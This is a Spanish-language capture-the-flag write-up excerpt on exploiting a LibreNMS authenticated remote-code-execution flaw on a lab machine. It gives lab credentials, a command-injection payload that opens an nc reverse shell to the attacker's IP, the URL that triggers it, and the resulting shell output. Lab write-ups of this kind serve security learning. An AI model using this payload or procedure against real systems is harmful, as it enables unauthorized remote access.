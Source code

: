 
- La vulnerabilidad de RCE está detallada aquí: https://www.exploit-db.com/exploits/47044. Requiere autenticar en el sistema.
- IMPORTANTE: Toca leer el detalle de la vulnerabilidad y entender el SCRIPT. Auntenticamos el usuario aeolus:sergioteamo.
- Para explotar la vulnerabilidad debemos añadir un dispositivo.

```
'$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.133 443 >/tmp/f) #

10.10.10.133: IP de KALI
443: Puerto Remoto para la conexión reversa
```

<img src="https://github.com/El-Palomo/SYMFONOS-2/blob/main/symfonos13.jpg" with=80% />

- Luego llamamos al archivo y establecemos la conexión rerversa.

```
10.10.10.151:8080/ajax_output.php?id=capture&format=text&type=snmpwalk&hostname=10.10.10.16

root@kali:~/SYMFONOS2# netcat -lvp 443
Connection from 10.10.10.151:37588
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)

```
